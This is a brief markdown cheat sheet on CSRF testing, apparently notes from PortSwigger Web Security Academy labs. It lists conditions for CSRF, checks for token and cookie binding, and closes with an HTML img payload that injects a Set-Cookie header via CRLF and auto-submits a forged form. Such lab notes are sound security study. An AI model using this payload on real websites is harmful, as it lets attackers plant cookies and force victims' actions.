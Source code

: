 For a CSRF attack to be possible, three key conditions must be in place:
```
1. A relevant action.
2. Cookie-based session handling.
3. No unpredictable request parameters.
```
### Testing CSRF Token.
```
1. Remove CSRF token and see if application accepts it.
2. Change request method POST to GET.
3. See if user token is tied to user session. [ To test it, use another user's token in your token ]
```
### Testing CSRF token and CSRF Cookies.
____
#### Check if CSRF token is tied to the CSRF cookie.
```
1. Submit an invalid CSRF token.
2. Submit a valid CSRF token from another user.
3. Submit a valid CSRF token and CSRF cookie from another user.
4. In uplicated token cookie try to assign same random value in token+cookie.
```
### Exploitation
To exploit this CSRF token+cookie mechanism, we need to perform 2 things.
```
1. Inject a CSRF cookie in user's session. (HTTP Header injection)
2. Send a CSRF attack to victim.
```
#### Exploit
```html
<img src="https://0a5000e9036c9fa3820d15c300a500d4.web-security-academy.net/?search=asdasfa%0d%0aSet-Cookie:%20csrf=testing;%20SameSite=None" onerror="document.forms[0].submit()">
```
